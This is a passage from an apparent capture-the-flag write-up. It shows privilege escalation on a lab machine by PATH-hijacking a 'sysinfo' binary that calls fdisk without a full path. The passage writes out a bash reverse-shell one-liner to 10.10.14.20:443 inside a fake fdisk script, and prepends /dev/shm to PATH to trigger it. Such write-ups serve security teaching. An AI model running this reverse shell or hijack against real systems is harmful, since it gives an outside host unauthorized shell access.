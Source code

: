     www-data@ubuntu:/$ cat /etc/group | grep users
    users:x:100:theseus
    

I can run the binary, and it prints out a bunch of information about the system:

[![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fmagic-sysinfo.gif)_Click for full size image_](https://0xdf.gitlab.io/img/magic-sysinfo.gif)

### ltrace

Running with prints out the calls made outside the binary. There’s a ton of output, but looking through it, there’s a line that jumps out at me:`sysinfo``ltrace`

    theseus@ubuntu:/$ ltrace sysinfo
    ...[snip]...
    popen("fdisk -l", "r")                           = 0x55e43e4e9280                 
    fgets(fdisk: cannot open /dev/loop0: Permission denied
    fdisk: cannot open /dev/loop1: Permission denied
    fdisk: cannot open /dev/loop2: Permission denied
    fdisk: cannot open /dev/loop3: Permission denied                                                   
    fdisk: cannot open /dev/loop4: Permission denied
    ...[snip]...
    

`popen` is another way to [open a process](https://man7.org/linux/man-pages/man3/popen.3.html) on Linux. The binary is making a call to , which is fine, except that it is doing so without specifying the full path. This leave the binary vulnerable to path hijacking.`fdisk`

### Shell

I’ll create a reverse shell script in :`/dev/shm`

    theseus@ubuntu:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.20/443 0>&1'
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    theseus@ubuntu:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.20/443 0>&1' > fdisk
    theseus@ubuntu:/dev/shm$ chmod +x fdisk 
    

I’ll test it and make sure it connects, and it does:

    theseus@ubuntu:/dev/shm$ ./fdisk
    

Now I’ll update my current path to include :`/dev/shm`

    theseus@ubuntu:/dev/shm$ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
    theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"
    theseus@ubuntu:/dev/shm$ echo $PATH                  
    /dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
    

Now when I run , when it gets to the call, I get a shell at my listener:`sysinfo``fdisk``nc`

    theseus@ubuntu:/dev/shm$ sysinfo                                                                   
    ====================Hardware Info====================          
    H/W path           Device      Class      Description                                              
    =====================================================          
                                   system     VMware Virtual Platform
    /0                             bus        440BX Desktop Reference Platform
    ...[snip]...
    /0/46/0.0.0        /dev/cdrom  disk       VMware IDE CDR00
    /1                             system     
    